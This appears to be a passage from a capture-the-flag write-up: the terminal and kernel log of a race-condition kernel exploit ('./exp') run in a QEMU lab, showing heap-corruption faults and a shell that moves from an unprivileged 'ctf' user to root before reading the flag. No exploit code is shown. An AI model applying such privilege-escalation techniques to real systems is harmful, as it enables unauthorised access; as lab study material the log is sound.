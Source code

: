 ### race

```c
./exp
0x1234000 = 0xffffa18e8442dc00
[   39.672314] general protection fault: 0000 [#1] SMP PTI
[   39.673411] CPU: 0 PID: 1096 Comm: exp Tainted: G           O      5.0.0-rc8+ #2
[   39.673662] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   39.674586] RIP: 0010:__kmalloc+0x8d/0x1a0
...
...
[   39.682351] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   39.682456] CR2: 00007ffe6ddfcfb0 CR3: 0000000004484000 CR4: 00000000003006f0
~ $ $ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
~ $ $ exit
exit
umount: can't unmount /dev: Device or resource busy
[   46.133945] sd 0:0:0:0: [sda] Synchronizing SCSI cache
[   46.135758] sd 0:0:0:0: [sda] Stopping disk
[   46.139729] general protection fault: 0000 [#2] SMP PTI
[   46.139867] CPU: 0 PID: 1102 Comm: poweroff Tainted: G      D    O      5.0.0-rc8+ #2
[   46.140011] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   46.140215] RIP: 0010:kmem_cache_alloc_trace+0x6e/0x160
[   46.140349] Code: 00 00 00 4d 8b 07 65 49 8b 50 08 65 4c 03 05 f1 ee 65 71 49 8b 28 48 85 ed 0f 84 ae 00 00 00 41 8b 47 20 49 8b 3f 48 8d 4a 01 <48> 8b 5c 05 00 48 89 e8 65 48 0f c7 0f 0f 94 c0 84 c0 74 c5 41 8b
[   46.140750] RSP: 0018:ffffa845800dfb18 EFLAGS: 00000206
[   46.140865] RAX: 0000000000000000 RBX: ffffa18e84b8f0c0 RCX: 0000000000000a2f
[   46.141008] RDX: 0000000000000a2e RSI: 00000000006080c0 RDI: 0000000000023cc0
[   46.141151] RBP: 4141414141414141 R08: ffffa18e87823cc0 R09: 0000000000000000
[   46.141300] R10: ffffa18e854d7690 R11: 000000000000005f R12: 00000000006080c0
...
...
[   46.163526] R10: ffffa845800e7d40 R11: 000000000000b702 R12: 00000000006080c0
[   46.163739] R13: 0000000000000385 R14: ffffa18e85401500 R15: ffffffffc02f8064
[   46.163873] FS:  000000000201a880(0000) GS:ffffa18e87800000(0000) knlGS:0000000000000000
[   46.164019] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   46.164126] CR2: 00000000004af430 CR3: 0000000004490000 CR4: 00000000003006f0

Please press Enter to activate this console. $

/ # $ id
id
uid=0(root) gid=0(root)
/ # $ ls
ls
bin      etc      home     linuxrc  sbin     tmp
dev      flag     lib      proc     sys      usr
/ # $ cat flag
cat flag
[   57.514984] general protection fault: 0000 [#4] SMP PTI
[   57.515146] CPU: 0 PID: 1110 Comm: cat Tainted: G      D    O      5.0.0-rc8+ #2
[   57.515284] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   57.515482] RIP: 0010:__kmalloc+0x8d/0x1a0
[   57.515633] Code: 01 00 00 4d 8b 06 65 49 8b 50 08 65 4c 03 05 d2 e4 65 71 49 8b 28 48 85 ed 0f 84 cf 00 00 00 41 8b 46 20 49 8b 3e 48 8d 4a 01 <48> 8b 5c 05 00 48 89 e8 65 48 0f c7 0f 0f 94 c0 84 c0 74 c5 41 8b
...
```